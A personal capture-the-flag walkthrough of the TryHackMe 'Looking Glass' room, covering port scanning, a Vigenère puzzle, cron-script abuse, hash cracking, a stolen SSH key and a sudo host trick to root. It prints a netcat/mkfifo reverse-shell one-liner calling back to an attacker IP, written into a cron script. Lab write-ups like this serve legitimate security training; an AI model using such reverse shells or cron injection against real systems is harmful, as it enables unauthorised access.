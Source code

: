 # Looking Glass
[Play](https://tryhackme.com/room/lookingglass)

## 1. Recon

nmap scan:

```
❯ nmap -script=default -sV -A -T4 10.10.216.198
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-27 23:58 EST
Nmap scan report for 10.10.216.198
Host is up (0.23s latency).
Not shown: 916 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:15:19:70:35:fd:dd:0d:07:a0:50:a3:7d:fa:10:a0 (RSA)
|   256 a8:67:5c:52:77:02:41:d7:90:e7:ed:32:d2:01:d9:65 (ECDSA)
|_  256 26:92:59:2d:5e:25:90:89:09:f5:e5:e0:33:81:77:6a (ED25519)
9000/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9001/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9002/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9003/tcp  open  ssh        Dropbear sshd (protocol 2.0)
```

This goes on for a while ... wtf? 

The website does not show shit, so gobuster is useless. At first i thought this was some bug, but I took a look at the hint, and it made sense: `O(log n) A looking glass is a mirror.` It's binary search to find the correct port! Let's do `ssh root@IP -p 9000` and move accordingly. Ah for the lowest its showing 'Lower' and for the highest its showing 'Higher'. Now the mirror part makes sense.

Lesgoo manual bruteforce ... yaayyyyyyyy :D the best thing ever!

```
❯ ssh root@10.10.216.198 -p 9220
Lower
Connection to 10.10.216.198 closed.
❯ ssh root@10.10.216.198 -p 9290
Higher
Connection to 10.10.216.198 closed.
```

aiyoo wtf is this shit. No other port in between ;-; Finally I stumble upon the port. What a pain! Also that port isn't shown for some reason hmmmmm

So we get:

```
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```

Apparently its using the vignere cipher. Don't ask me how I know this. I just know it, ok?

`bewareTheJabberwock` is the last line!

Once we do that, we get:
```
Enter Secret: <:D>
jabberwock:WaxworksPreciousUnfastenedSorry
```

## 2. Foothold

Let's login using the ssh 22 port (default).

```
jabberwock@looking-glass:~$ ls
poem.txt  twasBrillig.sh  user.txt
```

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

The `poem.txt` is the jabberwock poem we saw earlier. Now what?

```
jabberwock@looking-glass:/home$ ls
alice  humptydumpty  jabberwock  tryhackme  tweedledee  tweedledum
```

Well ... this is going to be a pain :/

So one important thing to look at is `crontab`, when nothing else is leading anywhere. We get:

```
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

Now from `sudo -l` we saw we can reboot. Sweet! We can just put our things in `twasBrillig.sh` to get into tweedledum. What to put in? `bash`. That's what I did. And that NOT what you should do.

do this instead `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MY_IP 1234 >/tmp/f" > twasBrillig.sh`, which puts this line in the `twasBrilling.sh` file.

Now my dumbass just put in bash, without realising that the port (which we found initially) was resected at each reboot. great.

Don't screup here! I'm just hoping this works :/ Well. Fuck. 3rd time.

Now that works :DDD. We first get a proper shell using `python3 -c "import pty;pty.spawn('/bin/bash')"`

```
tweedledum@looking-glass:~$ sudo -l
sudo -l
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash
```

Not as much powerful of a user I see.

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

This looks like a hash, so we can do a hash identification. However, I did not find anything special here. So, it may as well be a series of hashes?

Using [this tool](https://hashes.com/en/tools/hash_identifier), yes it is!


![](https://i.imgur.com/L7kQNZ2.png)

hell yeah! 

We do not find anything here, other than some more random `poetry.txt`. What's left is the user alice. So check out what we can view? Well nothing in the `~`, but what abuot `.ssh`? Maybe we can get a RSA key?!

```
humptydumpty@looking-glass:/home/alice$ ls -la .ssh/id_rsa
ls -la .ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 .ssh/id_rsa
humptydumpty@looking-glass:/home/alice$ cat .ssh/id_rsa
cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
.....
-----END RSA PRIVATE KEY-----
```

Nice. Very nice.

```
❯ ssh alice@10.10.216.198 -i id.id
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id.id' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id.id": bad permissions
alice@10.10.216.198's password: 

❯ chmod 600 id.id
❯ ssh alice@10.10.216.198 -i id.id
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ ls
kitten.txt
```

## 3. Priv Esc
So since we are in, with a stable connection, lets run `linpeas.sh` :D

Transfer using: `❯ scp -i path/to/id path/to/linpeas.sh alice@BOX_ID:~`

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.21p2 
```

For setuid:
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
```

That did not work ... but something else did:

```
alice@looking-glass:~$ cat /etc/sudoers.d/alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# 
```
